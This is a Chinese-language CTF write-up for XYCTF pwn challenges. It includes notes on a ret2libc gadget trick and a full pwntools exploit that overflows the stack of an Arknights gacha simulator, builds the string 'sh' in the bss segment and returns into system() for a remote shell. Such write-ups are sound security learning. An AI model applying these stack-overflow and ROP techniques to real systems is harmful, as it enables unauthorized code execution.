 ```yaml
---
title: XYCTF PWN WP
date: '2025-04-04 14:52:16'
updated: '2025-04-07 21:33:52'
---
```

## ret2libc_revenge
![](/images/23377d4fdbb87b16a187ec0bba633e4a.png)

没有 canary，got 表部分可写，没有 PIE

![](/images/39eae9c858d7399501e3a0601e61a3ec.png)

没有简单的 gadget 可以控制 rdi 的值，估计得去仔细看看 IDA 的反编译代码了

看见这两个 gadget

![](/images/8e3d8b1ea3d46770ca128625a996f16e.png)

![](/images/ead207e8aa07999d1051059684fe8626.png)

可以控制`[rbp+20h]`位置的数据从而控制 rdi 的值

但是因为在栈溢出的时候，rbp 会被覆盖掉，而本来没有栈地址，所以要想控制`[rbp+20h]`的数据，

就得选择`[rbp+20h]` 的位置是 puts_got 的 rbp 的地址来覆盖，这个点刚开始没想到，看了看 xi_ix 师傅写的协作文档

## 明日方舟寻访模拟器
在 xsctf 的时候 clby 师傅出的题目（还更新了这几个月新增的干员，我哭死...），之前打通的脚本的地址因为新增了数据所以得改一下，再加上之前没有做出来，只复现过，所以这次写一下 WP

从 main 函数里面可以看到在准备退出程序前的输入名字的 read 存在栈溢出，可以控制 main 函数的返回地址来 ROP

![](/images/3ca1f9fc81fd72183870e87d79a5276e.png)

![](/images/98c92f5c2ed3bcda3be61a342399e720.png)

用 ROPgadget 也可以找到要用的 gadget

![](/images/63ca155b957522fcf69f1006a6042907.png)

### 关键 bss 段构造"sh"
ascii 码（十六进制）：s--73  h--68

因为是小端序，所以应该在 bss 段构造一个 0x6873 的数据，又因为寻访次数会存在 bss 段![](/images/fa09a9b063edb5d4011191b4f18fc186.png)

所以可以利用寻访次数来构造字符串"sh"

完整 exp：

```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

link=remote("47.93.96.189",22749)
# link=process('./arknights')
# elf=ELF("./arknights")

# gdb.attach(link,"b *0x4018F5")
# pause()

pop_rdi=0x4018e5
system=0x4018FC
count=0x405BCC
ret=0x40191C

def employ(n):
    link.send(b'\n')
    link.recv()
    link.sendline(b'3')
    link.recv()
    link.sendline(str(n).encode())

#在bss段构造“sh”
employ(10000)
employ(10000)
employ(6739)

link.send(b'\n')
link.recv()
link.sendline(b'4')
link.recv()
link.sendline(b'1')
link.recv()

# payload=b'a'*0x48+p64(ret)+p64(pop_rdi)+p64(count)+p64(system)
payload=b'a'*0x48+p64(pop_rdi)+p64(count)+p64(system)
link.send(payload)
link.interactive()
```

getshell发现`standard output: Bad file descriptor`

是因为`close(1)`关闭了标准输出，可以通过重定向获取flag：

`cat flag 1>&0 `或者 `cat flag 1>&2`

